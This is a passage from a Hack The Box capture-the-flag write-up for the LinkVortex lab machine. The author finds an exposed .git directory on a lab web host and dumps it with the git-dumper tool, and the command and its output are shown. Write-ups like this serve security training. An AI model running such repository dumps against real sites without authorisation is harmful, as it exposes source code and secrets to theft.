 I found one interesting directory that is `.git`. Let's visit `http://dev.linkvortex.htb/.git`.

![.git directory](/assets/images/writeups/LinkVortex-HTB/3.png)

While Googling for some time to see how I could make use of `.git` directory to find interesting information. I came across a tool called `git-dumper`. 

[__`git-dumper`__](https://github.com/arthaud/git-dumper) - A tool to dump a git repository from a website.

It requires the url and the output directory. Let'	s utilise this tool.

```bash
python3 git_dumper.py http://dev.linkvortex.htb/.git ~/dev_linkvortex_git_dump

[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/packed-refs [200]
[-] Fetching http://dev.linkvortex.htb/.git/config [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
[-] Fetching http://dev.linkvortex.htb/.git/index [200]
[-] Fetching http://dev.linkvortex.htb/.git/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/shallow [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/ [200]
```
